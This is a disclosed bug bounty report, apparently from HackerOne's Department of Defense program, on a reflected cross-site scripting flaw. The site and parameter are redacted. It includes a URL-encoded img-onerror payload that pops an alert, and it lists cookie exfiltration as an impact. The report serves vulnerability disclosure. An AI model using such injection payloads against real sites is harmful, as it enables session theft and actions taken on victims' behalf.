 # Reflected XSS at https://█████████ via "███" parameter

## Report Details
- **Report ID**: 1457277
- **URL**: https://hackerone.com/reports/1457277
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-21T12:16:34.245Z
- **Disclosed**: 2022-02-14T21:22:15.328Z

## Reporter
- **Username**: pelegn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

There is Reflected Cross site scripting issue at the following url:

https://█████████

## Proof Of Concept

https://███████?████████=%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E

█████

Best Regards

@pelegn

## Impact

Cookies Exfiltration
SOAP Bypass
CORS Bypass
Executing javascript on the victim behalf

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Navigate to https://█████?████████=%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
